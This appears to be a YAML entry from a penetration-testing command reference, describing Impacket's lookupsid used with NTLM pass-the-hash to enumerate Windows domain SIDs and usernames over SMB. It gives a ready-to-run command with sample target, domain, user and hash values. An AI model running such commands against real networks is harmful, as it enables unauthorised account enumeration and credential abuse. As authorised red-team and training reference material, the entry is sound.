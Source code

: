 ```yaml
---
description: Enumerate domain SIDs and associated usernames using Impacket's lookupsid.py with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-lookupsid -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 test.local/john@10.10.10.1

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://github.com/fortra/impacket
  - https://attack.mitre.org/techniques/T1087/
---
```

